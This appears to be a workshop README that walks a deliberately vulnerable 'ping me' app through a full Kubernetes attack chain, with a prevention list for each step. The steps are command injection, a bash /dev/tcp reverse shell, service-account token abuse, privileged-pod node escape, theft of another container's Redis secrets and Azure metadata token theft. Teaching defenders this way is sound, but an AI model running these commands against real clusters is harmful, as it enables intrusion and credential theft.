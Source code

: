 # Hijack Kubernetes Hands-on
## Play with the sample app

<details>
<summary>Show me the details</summary>

The sample application "ping me" pings a target specified via the input field. Try the following inputs:

```bash
127.0.0.1

127.0.0.1; echo "I was here"

; which bash
```

<details>
<summary>Details on how to input the snippets</summary>

1. Let's try to inject a command after the IP address: `127.0.0.1; echo "I was here"`. As you can see in the answer, it worked.
2. Now we try whether `bash` is available: `; which bash`. And it is! Looks like we can try to hijack the container.

</details>

<details>
<summary>How to prevent this attack</summary>

* Shift security left and enable [SAST scanning](https://owasp.org/www-community/Source_Code_Analysis_Tools)
* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)

</details>
</details>

## Hijack the container

<details>
<summary>Show me the details</summary>

We now inject into the container via a reverse shell. Try to execute the following snippets:

On your attacker machine:

```bash
sudo nc -lnvp 80
```

Input for the app (change your IP):

```bash
; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'
```

<details>
<summary>Details on how to hijack the container</summary>

1. We will open a connection on our attacker machine using netcat: `sudo nc -lnvp 80`
2. Now we inject the required command into our container. This will allow us to connect a reverse shell to our open connection: `; bash -c 'bash -i >& /dev/tcp/0.0.0.0/80 0>&1'`.
3. And finally, we have a reverse shell up and running. Try some commands like `ls`

</details>

<details>
<summary>How to prevent this attack</summary>

* Build secure/small container images ([distroless](https://github.com/GoogleContainerTools/distroless), less is more)
* Do not run workload as root
* Deny egress network access on a network level as well as using [Kubernetes Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/)
* Detect untrusted process with container runtime security tools like [Falco](https://github.com/falcosecurity/falco)

</details>
</details>

## Get access to the Kubernetes API

<details>
<summary>Show me the details</summary>

Let's see if we can access the API server. Execute the following snippets:

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api

NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/

kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

<details>
<summary>Details on how to access the Kubernetes API server</summary>

Let's see if we can access the API server.

```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CA=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api
```

It looks like we were able to authenticate and have some access. Now let's check if we have access to other pods in our namespace:

``` bash
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl --cacert ${CA} --header "Authorization: Bearer ${TOKEN}" -X GET https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT_HTTPS/api/v1/namespaces/$NS/pods
```

This looks good! Let's install `kubectl` for easier access:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod +x kubectl; mv kubectl /usr/bin/
```

Let's see what we are allowed to do:

```bash
kubectl get pods
kubectl get pods -A
kubectl get nodes

kubectl auth can-i create pod
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Do not share service accounts between applications
* Do not enable higher access levels for the default service account (this app would not have needed it!)
* Review all third-party snippets before deploying them
* Use read-only filesystems
* Things we already talked about
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
</details>

## Hijack the Kubernetes Node

<details>
<summary>Show me the details</summary>

Let's try one more thing. Are we able to schedule a privileged pod and "talk" to containerd? Run the following snippets:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF

kubectl exec -it -n default privileged-pod -- /bin/bash

apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list

```

<details>
<summary>Details on how to hijack the node</summary>

Let's try to create a privileged pod and "talk" to containerd:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: privileged-pod
  namespace: default
spec:
  containers:
  - name: shell
    image: ubuntu:latest
    stdin: true
    tty: true
    volumeMounts:
    - mountPath: /mnt
      name: volume
    securityContext:
      privileged: true
  volumes:
  - name: volume
    hostPath:
      path: /run/containerd
EOF
```

Then we need to attach to the pod:

```bash
kubectl exec -it -n default privileged-pod /bin/bash
```

Now we can try to install some basics as well as the containerd CLI and talk to the containerd socket:

```bash
apt-get update; apt-get install -y curl jq

curl -LO https://github.com/containerd/containerd/releases/download/v1.5.5/cri-containerd-cni-1.5.5-linux-amd64.tar.gz; tar -xvf cri-containerd-cni-1.5.5-linux-amd64.tar.gz

ctr --address /mnt/containerd.sock --namespace k8s.io container list
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Deny running root containers (Tools like [OPA Gatekeeper](https://github.com/open-policy-agent/gatekeeper) and [Kyverno](https://github.com/kyverno/kyverno) can help)
* Deny hostPath mounts
* Things we already talked about
  * Do not share service accounts
  * Limit egress access to the internet
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
</details>

## Access secrets and data from another container

<details>
<summary>Show me the details</summary>

We will now try to retrieve secrets from a container that we do not have access to (via Kubernetes):

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "87a94228f133e2da99cb16d653cd1373c5b4e8689956386c1c12b60a20421a02" | awk '{print $1}')

ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```


With those secret we can now connect to the Redis instance and retrieve some data:

```bash
apt-get install -y redis-tools

REDIS_HOST=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_HOST | sed 's/^.*=//')
REDIS_KEY=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_KEY | sed 's/^.*REDIS_KEY=//')

redis-cli -h $REDIS_HOST -a $REDIS_KEY get data
```

<details>
<summary>Details on how to access the secrets</summary>

We will use the containerd CLI to access details of a container running on this node.

First we will retrieve the container ID:

```bash
id=$(ctr --address /mnt/containerd.sock --namespace k8s.io container list | grep "87a94228f133e2da99cb16d653cd1373c5b4e8689956386c1c12b60a20421a02" | awk '{print $1}')
```

And then request container runtime details such as environment variables:
```bash
ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq .Spec.process.env
```

With those secret we can now connect to the Redis instance and retrieve some data:

```bash
apt-get install -y redis-tools

REDIS_HOST=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_HOST | sed 's/^.*=//')
REDIS_KEY=$(ctr --address /mnt/containerd.sock --namespace k8s.io container info $id | jq -r .Spec.process.env[] | grep REDIS_KEY | sed 's/^.*REDIS_KEY=//')

redis-cli -h $REDIS_HOST -a $REDIS_KEY get data
```

</details>

<details>
<summary>How to prevent this attack</summary>

* Limit egress access to other cloud resources (Network policies)
* Secure your other cloud resources
* Things we already talked about
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security
  * Deny running root containers (Tools like OPA Gatekeeper and Kyverno can help)
  * Deny hostPath mounts

</details>
</details>

## Hijack Cloud resources

<details>
<summary>Show me the details</summary>

We can also use the underlying cloud identity and try to escape even further. Run the following snippet to get a valid cloud provider token (in our case the Client ID of the underlying Managed Identity):

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp

IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)

SUBSCRIPTION=$(cat /tmp/etc/kubernetes/azure.json | jq -r .subscriptionId)
RG=$(cat /tmp/etc/kubernetes/azure.json | jq -r .resourceGroup)

curl -X GET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://management.azure.com/subscriptions/$SUBSCRIPTION/resourcegroups/$RG?api-version=2021-04-01 | jq
```

We could now use the secret to talk to the cloud provider management plane (in our case Azure Resource Manager) and try to create or access further resources.

<details>
<summary>Details on how to retrieve a Cloud provider token</summary>

First, we need to mount the local node's file system to access the underlying identity ID:

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp
```

We can now retrieve the cloud identity used and request a valid token via the cloud metadata service (in our case Azure Instance Metadata Service):

```bash
mount $(df | awk '{print $1}' | grep "/dev/sd") /tmp

IDENTITY=$(cat /tmp/etc/kubernetes/azure.json | jq -r .userAssignedIdentityID)

TOKEN=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?client_id='$IDENTITY'&api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq -r .access_token)

SUBSCRIPTION=$(cat /tmp/etc/kubernetes/azure.json | jq -r .subscriptionId)
RG=$(cat /tmp/etc/kubernetes/azure.json | jq -r .resourceGroup)

curl -X GET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://management.azure.com/subscriptions/$SUBSCRIPTION/resourcegroups/$RG?api-version=2021-04-01 | jq
```

We could now use the secret to talk to the cloud provider management plane (in our case Azure Resource Manager) and try to create or access further resources.

</details>

<details>
<summary>How to prevent this attack</summary>

* Deny access to the Cloud provider metadata service using Network Policies (all Cloud providers!)
* Things we already talked about
  * Deny priviledged containers, host path mounts and other security related settings via Policies
  * Use distroless and secure container images
  * Detect untrusted processes with container runtime security

</details>
</details>